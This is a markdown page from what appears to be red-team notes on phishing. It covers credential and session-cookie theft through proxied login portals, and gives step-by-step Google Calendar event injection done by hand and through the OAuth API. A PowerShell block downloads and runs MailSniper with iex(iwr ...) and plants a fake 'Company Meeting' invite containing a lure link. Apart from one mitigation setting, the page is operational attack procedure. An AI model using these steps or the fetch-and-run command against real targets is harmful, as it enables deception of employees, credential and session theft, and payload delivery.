---
### The title for the content.
title : "Phising"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "sql injection"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Gaining access through people."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "sql-injection"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
tags : ["Phising"]
---

## Phising

Misconfigurations and vulnerable software are not the only way into a targets network. Phishing can be a very valuable wrench in your toolkit, its perfect to gather credentials, sessions or even shells.

### Session Hijack

Steal creds and/or session cookies. Can be useful when client has good prevention against shells.

Email a link to a target employee pointing to a cloned/proxied auth portal (Microsoft Online(O365, Azure), G-suite. AWS Console). When they auth they get a real session cookies, and so do we.

Tools: [Evilginx2](https://github.com/kgretzky/evilginx2), [Modlishka](https://github.com/drk1wi/Modlishka) # MOVE TO OWN TOOL PAGE

When we get session we need to act fast and setup persistence.

### G-suite

G-Suite allowed for Calendar Event Injection. This allows a attacker to silently (without the need for a e-mail by using the API) inject a calendar entry to the users calender. This bypasses the "Don't auto-add" options. Doing something like this will create urgency with a reminder notification.

#### Manual

This can be prevented by setting 'Event settings -> Automatically add invitations' to 'No, only show invitations to which I have responded.'

1. Create a new gmail account with a convincing name
2. Prepair your payload of choice and make it available externally (for example with pwndrop)
3. Open `https://calendar.google.com/calendar/` while logged into your new account.
4. Create a new calendar event, make sure to set a reminder.  
  
5. Ensure you click do not send.  
  
6. The user will recieve a notification when the 'meeting' is supposed to happen.  
  

  

##### API

1. logon into the account you want to inject as  
2. open `https://console.developers.google.com/flows/enableapi?apiid=calendar&pli=1`  
3. Select Project and agree the ToS    
  
4. On the "Add credentials to your project" page click cancel.  
5. At the top of the page, select the "OAuth consent screen" tab. Select an Email address, enter a Product name if not already set, and click the Save button.    
  
6. Select the Credentials tab, click the Create credentials button and select OAuth client ID.    
  
7. Select the application type Web application, under "Authorized redirect URIs" paste in the following address: `https://developers.google.com/oauthplayground`. Then, click the Create button.  
  
8. Copy your "Client ID" and "Client Secret".  
9. Navigate here: `https://developers.google.com/oauthplayground/`.  
10. Click the "gear icon" in the upper right corner and check the box to "Use your own OAuth credentials". Enter the OAuth2 client ID and OAuth2 client secret in the boxes.  
11. Make sure that "OAuth flow" is set to Server-side, and "Access Type" is set to offline.  
  
12. Select the "Calendar API v3" dropdown and click both URLs to add them to scope. Click Authorize APIs.  
  
13. Select the account you want to authorize, then click Allow.  
  
(If there is an error such as "Error: redirect_uri_mismatch" then it’s possible the changes haven’t propagated yet. Just wait a few minutes, hit the back button and try to authorize again.).  
  
14. You should now be at "Step 2: Exchange authorization code for tokens." Click the "Exchange authorization code for tokens button". The "Access token" is the item we need for accessing the API. Copy the value of the "Access token".  
  
P.S. The "Access token" expires after 3600 seconds.  

```powershell
PS C:\Users\justin-p> iex((iwr https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1).content)
PS C:\Users\justin-p> Invoke-InjectGEventAPI -PrimaryEmail Injector@gmail.com -AccessToken 'TOKEN' -Targets "InjectToMe@gmail.com" -StartDateTime 2020-09-02T15:20:00 -EndDateTime 2020-09-02T15:30:00 -EventTitle "Company Meeting" -EventDescription "Please review the agenda at the URL below prior to the meeting. https://ElRandoUrl" -EventLocation "Zoom app goes Bzzzzzzzz"
```

### Remote Access

Try to comprise workstations. This would (depending on the user) give access to internal and other cloud resources. Allows us to steal tokens from disk, preform session hijack/riding, start keyloggers and pivot in the network from this entry point.

### Related tools

